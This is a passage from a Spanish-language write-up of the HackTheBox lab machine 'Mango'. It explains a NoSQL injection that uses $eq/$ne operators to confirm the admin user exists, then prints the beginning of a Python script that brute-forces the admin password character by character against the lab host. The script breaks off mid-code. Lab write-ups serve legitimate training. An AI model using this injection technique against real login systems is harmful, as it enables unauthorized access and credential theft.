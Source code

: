 ![](/assets/images/Mango/img5.png)

### NoSQLI Python Script

Usando el filtro Equal en el campo user y not equal en el campo password podemos ver que nos hace la redirección, esto es porque el usuario admin existe. Si probamos a poner un usuario inventado, esto no occurre.

```python
import requests,re,signal,string,sys
from pwn import *

url="http://staging-order.mango.htb"
proxies={"http":"http://127.0.0.1:8080"}

dicc_password=string.ascii_letters+string.digits+string.punctuation


def handler(sig,frame):
	print ("[!] Saliendo...")
	sys.exit(1)

signal.signal(signal.SIGINT,handler)


def nosqli():

	password=""

	p1=log.progress("Iniciando NoSQLI")
	p1.status("Inyectando:")

	p2=log.progress("Datos:")

	while True:
		for char in dicc_password:

			data={
				"username[$eq]":"admin",
```